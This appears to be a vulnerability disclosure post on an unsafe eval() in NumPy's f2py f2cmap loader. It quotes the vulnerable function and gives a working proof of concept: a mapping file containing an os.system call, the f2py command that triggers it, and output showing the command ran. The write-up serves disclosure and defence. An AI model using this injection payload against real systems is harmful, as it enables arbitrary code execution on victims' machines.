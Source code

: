 ```yaml
---
layout: post
title:  "Unsafe eval via f2py in Numpy"
date:  2024-07-03 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Unsafe eval via f2py in Numpy

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 2.0.0

## Description

[F2PY](https://numpy.org/doc/stable/f2py/index.html#f2py-user-guide-and-reference-manual) distributed as part of NumPy which is used to convert fortan module to python module. It will convert fortan module to C `.so` module for python to import. During conversion, F2PY needs to know what would be the corresponding C type and a general solution for that would be too complicated to implement. A json file containing fortan type to C type mapping can be passed to F2PY by using the [--f2cmap option](https://numpy.org/doc/stable/f2py/advanced/use_cases.html#dealing-with-kind-specifiers) during conversion:

The mapping file format:

```
<Fortran typespec> : {<selector_expr>:<C type>}
```

A mapping file example:

```
{'real': {'KIND(0.0D0)': 'double'}}
```

However, during loading of f2cmap file, [load_f2cmap_file](https://github.com/numpy/numpy/blob/c21ac104e544e24c88dbf625b6dccdbe7b90e39e/numpy/f2py/capi_maps.py#L138C5-L138C21) is called and `eval()` is used to parse the json content in the mapping file. If a victim loads a malicious mapping file, command injection can be achieved.

The vulnerable sink: [load_f2cmap_file#L157](https://github.com/numpy/numpy/blob/c21ac104e544e24c88dbf625b6dccdbe7b90e39e/numpy/f2py/capi_maps.py#L157):

```
def load_f2cmap_file(f2cmap_file):
    global f2cmap_all, f2cmap_mapped

    f2cmap_all = copy.deepcopy(f2cmap_default)

    if f2cmap_file is None:
        # Default value
        f2cmap_file = '.f2py_f2cmap'
        if not os.path.isfile(f2cmap_file):
            return

    try:
        outmess('Reading f2cmap from {!r} ...\n'.format(f2cmap_file))
        with open(f2cmap_file) as f:
            # vulnerable to command injection
            d = eval(f.read().lower(), {}, {})
        f2cmap_all, f2cmap_mapped = process_f2cmap_dict(f2cmap_all, d, c2py_map, True)
        outmess('Successfully applied user defined f2cmap changes\n')
    except Exception as msg:
        errmess('Failed to apply user defined f2cmap changes: %s. Skipping.\n' % (msg))
```

## Proof of Concept

Firstly, let's create a malicous mapping file named `mapfile.txt`:

```
__import__('os').system('id')
```

Then, install numpy:

```
pip install --upgrade numpy
```

### Start attack

Load `mapfile.txt` using `F2PY`:

```
f2py -c test.f --f2cmap mapfile.txt
```

Now let's check the output, the command `id` is executed successfully:

```
running build
running config_cc
INFO: unifing config_cc, config, build_clib, build_ext, build commands --compiler options
running config_fc
INFO: unifing config_fc, config, build_clib, build_ext, build commands --fcompiler options
running build_src
INFO: build_src
INFO: building extension "untitled" sources
INFO: f2py options: ['--f2cmap', 'mapfile.txt']
INFO: f2py:> /tmp/tmpgkxylea2/src.linux-x86_64-3.10/untitledmodule.c
creating /tmp/tmpgkxylea2/src.linux-x86_64-3.10
OSError: [Errno 2] No such file or directory: 'test.f'. Skipping file "test.f".
Reading f2cmap from 'mapfile.txt' ...
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),116(netdev),1001(docker)
```

## Colab

Tested on google colab: [https://colab.research.google.com/drive/1Cx6nYcAK0251NgGWi4JsTeCalg5VDMat?usp=sharing](https://colab.research.google.com/drive/1Cx6nYcAK0251NgGWi4JsTeCalg5VDMat?usp=sharing)

![poc](https://live.staticflickr.com/65535/53834219079_360ff6894d_h.jpg)

## Impact

This vulnerability can have severe consequences. If victims load an malicious mapping file, command injection can be achieved.

## Occurrences

[load_f2cmap_file#L157](https://github.com/numpy/numpy/blob/c21ac104e544e24c88dbf625b6dccdbe7b90e39e/numpy/f2py/capi_maps.py#L157)

